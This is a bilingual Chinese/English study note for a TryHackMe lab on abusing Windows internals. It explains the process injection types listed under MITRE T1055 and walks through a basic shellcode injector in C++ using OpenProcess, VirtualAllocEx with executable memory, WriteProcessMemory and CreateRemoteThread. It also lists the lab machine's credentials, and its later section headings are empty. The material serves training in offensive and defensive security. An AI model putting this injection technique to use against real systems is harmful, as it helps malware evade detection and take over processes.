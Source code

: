 # Abusing Windows Internals

> [TryHackMe | Abusing Windows Internals](https://tryhackme.com/room/abusingwindowsinternals)
>
> Updated in 2023-12-30
>
> 利用 Windows 内部组件来规避常见的检测解决方案，采用现代的与工具无关的方法。
>
> Leverage windows internals components to evade common detection solutions, using modern tool-agnostic approaches.

## Introduction - 介绍

Windows 内部结构是 Windows 操作系统运行的核心，这为恶意使用者提供了一个利润丰厚的目标。Windows 内部结构可用于隐藏和执行代码、规避检测，并与其他技术或漏洞链相结合。

Windows 内部结构这一术语可以包含 Windows 操作系统后端的任何组件。这可能包括进程、文件格式、COM（组件对象模型）、任务调度、I/O 系统等。本次讨论将侧重于滥用和利用进程及其组件、动态链接库（DLL）和 PE（可移植可执行）格式。

### 学习目标

- 了解内部组件的易受攻击性
- 学习如何滥用和利用 Windows 内部结构的漏洞
- 了解技术的缓解和检测方法
- 将所学技术应用于真实世界的对手案例研究

在开始本教程前，请熟悉基本的 Windows 使用和功能。我们建议完成 Windows 内部结构教程。同时，基本的 C++ 和 PowerShell 编程知识也是推荐的，但不是必需的。

我们提供了一个基础的 Windows 机器，并提供了完成此教程所需的文件。您可以通过浏览器或使用以下凭据通过 RDP 访问该机器。

```plaintext
Machine IP: 10.10.180.10
Username: THM-Attacker
Password: Tryhackme!
```

这将是大量信息。请系好安全带，并找到最近的灭火器。

离开时别忘了向蓝队提供小费！

## Abusing Processes - 滥用进程

您操作系统上运行的应用程序可能包含一个或多个进程。进程维护和表示正在执行的程序。

进程具有许多其他子组件，并直接与内存或虚拟内存交互，使其成为一个完美的攻击目标。下表描述了进程的每个关键组件及其目的。

|     进程组件     |                     目的                     |
| :--------------: | :------------------------------------------: |
| 私有虚拟地址空间 |           进程被分配的虚拟内存地址           |
|    可执行程序    |     定义存储在虚拟地址空间中的代码和数据     |
|     打开句柄     |         定义进程可访问的系统资源句柄         |
|    安全上下文    | 访问令牌定义用户、安全组、特权和其他安全信息 |
|     进程 ID      |             进程的唯一数字标识符             |
|       线程       |            进程中被调度执行的部分            |

有关进程的更多信息，请查看 `Windows Internals`

进程注入通常被用作一个总称，用来描述通过合法功能或组件向进程中注入恶意代码。在本教程中，我们将重点关注以下四种不同类型的进程注入。

|                                                注入类型                                                |                    功能                    |
| :----------------------------------------------------------------------------------------------------: | :----------------------------------------: |
|            [进程空壳化 - Process Hollowing](https://attack.mitre.org/techniques/T1055/012/)            | 将代码注入到一个挂起并 “空壳化” 的目标进程中 |
|      [线程执行劫持 - Thread Execution Hijacking](https://attack.mitre.org/techniques/T1055/003/)       |      将代码注入到一个挂起的目标线程中      |
|   [动态链接库注入 - Dynamic-link Library Injection](https://attack.mitre.org/techniques/T1055/001/)    |          向进程内存中注入一个 DLL          |
| [可移植可执行文件注入 - Portable Executable Injection](https://attack.mitre.org/techniques/T1055/002/) | 自我注入 PE 图像，指向目标进程中的恶意函数 |

有许多其他形式的进程注入，由 [MITRE T1055](https://attack.mitre.org/techniques/T1055/) 概述。

在最基本的层面上，进程注入采取 shellcode 注入的形式。

在较高层次上，shellcode 注入可以分为四个步骤：

1. 使用所有访问权限打开目标进程。
2. 为 shellcode 分配目标进程的内存空间。
3. 将 shellcode 写入目标进程中已分配的内存。
4. 使用远程线程执行 shellcode。

这些步骤也可以通过图形方式进行分解，以描述 Windows API 调用如何与进程内存交互。

![Windows API 与内存进行交互](img/image_20231222-202240.png)

我们将拆解一个基本的 shellcode 注入器，以识别每个步骤，并在下面更深入地解释。

在 shellcode 注入的第一步中，我们需要使用特殊参数打开目标进程。`OpenProcess` 用于打开通过命令行提供的目标进程。

```cpp
processHandle = OpenProcess(
    PROCESS_ALL_ACCESS, // Defines access rights
    FALSE, // Target handle will not be inhereted
    DWORD(atoi(argv[1])) // Local process supplied by command-line arguments
);
```

在第二步中，我们必须为 shellcode 的字节大小分配内存。内存分配使用 `VirtualAllocEx` 处理。在调用中，`dwSize` 参数使用 `sizeof` 函数定义，以获取要分配的 shellcode 字节数。

```cpp
remoteBuffer = VirtualAllocEx(
    processHandle, // Opened target process
    NULL,
    sizeof shellcode, // Region size of memory allocation
    (MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
    PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

在第三步，现在我们可以使用已分配的内存区域来写入我们的 shellcode。通常使用 `WriteProcessMemory` 来写入内存区域。

```cpp
WriteProcessMemory(
    processHandle, // Opened target process
    remoteBuffer, // Allocated memory region
    shellcode, // Data to write
    sizeof shellcode, // byte size of data
    NULL
);
```

在第四步，我们现在控制了进程，并且我们的恶意代码已经写入内存。为了执行驻留在内存中的 shellcode，我们可以使用 `CreateRemoteThread` ；线程控制着进程的执行。

```cpp
remoteThread = CreateRemoteThread(
    processHandle, // Opened target process
    NULL, 
    0, // Default size of the stack
    (LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
    NULL, 
    0, // Ran immediately after creation
    NULL
);
```

## Expanding Process Abuse - 扩展进程滥用

## Abusing Process Components - 滥用进程组件

## Abusing DLLs - 滥用动态链接库（DLL）

## Memory Execution Alternatives - 内存执行替代方案

## Case Study in Browser Injection and Hooking - 浏览器注入和挂钩的案例研究

## Conclusion - 结论
